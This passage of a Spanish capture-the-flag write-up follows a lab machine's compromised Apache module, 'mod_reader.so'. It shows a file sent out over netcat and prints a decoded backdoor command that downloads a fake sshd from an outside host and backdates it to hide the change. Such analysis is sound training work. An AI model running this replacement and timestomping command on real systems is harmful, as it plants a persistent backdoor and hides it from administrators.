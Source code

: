 ```
Thanks,
sysadmin
```

Para resumir, lo que dice el correo es que en el servicio de apache hay cosas raras, así que vamos a buscar por archivos que hace poco hayan sido modificados del apache

```
steven@production:/var/backups$ find / -name apache2 2>/dev/null
/usr/lib/apache2
steven@production:/var/backups$ ls /usr/lib/apache2
modules
steven@production:/usr/lib/apache2$ cd modules
steven@production:/usr/lib/apache2/modules$ stat * | grep "Modify" | sort -u
Modify: 2021-05-17 07:10:04.000000000 +0000
Modify: 2021-11-25 23:16:22.000000000 +0000
Modify: 2022-01-05 14:49:56.000000000 +0000
steven@production:/usr/lib/apache2/modules$ stat * | grep "2021-05-17" -B 5
  File: mod_reader.so
  Size: 34800           Blocks: 72         IO Block: 4096   regular file
Device: fd00h/64768d    Inode: 2050        Links: 1
Access: (0644/-rw-r--r--)  Uid: (    0/    root)   Gid: (    0/    root)
Access: 2022-12-13 14:58:11.599681740 +0000
Modify: 2021-05-17 07:10:04.000000000 +0000
```

Filtrando por fechas de los archivos que últimamente fueron modificados, dimos con el archivo ```mod_reader.so```, vamos a pasarlo a nuestra máquina para inspeccionarlo.

```
steven@production:/usr/lib/apache2/modules$ cat mod_reader.so | nc 10.10.14.3 8080
steven@production:/usr/lib/apache2/modules$ md5sum mod_reader.so
5ef63371b6a138253a87aa1f79abf199  mod_reader.so
```
```
$ nc -lvnp 8080 > mod_reader.so
listening on [any] 8080 ...
connect to [10.10.14.3] from (UNKNOWN) [10.10.11.146] 43450
$ md5sum mod_reader.so
5ef63371b6a138253a87aa1f79abf199  mod_reader.so
```

Si le aplicamos un strings al archivo ```mod_reader.so```, veremos que hay una cadena de texto larga, la cual parece ser ```base64```.

```
$ strings mod_reader.so | grep "/bin/bash" -A 2 | tail -n 1
d2dldCBzaGFyZWZpbGVzLnh5ei9pbWFnZS5qcGVnIC1PIC91c3Ivc2Jpbi9zc2hkOyB0b3VjaCAtZCBgZGF0ZSArJVktJW0tJWQgLXIgL3Vzci9zYmluL2EyZW5tb2RgIC91c3Ivc2Jpbi9zc2hk

$ strings mod_reader.so | grep "/bin/bash" -A 2 | tail -n 1 | base64 -d
wget sharefiles.xyz/image.jpeg -O /usr/sbin/sshd; touch -d date +%Y-%m-%d -r /usr/sbin/a2enmod /usr/sbin/sshd
```
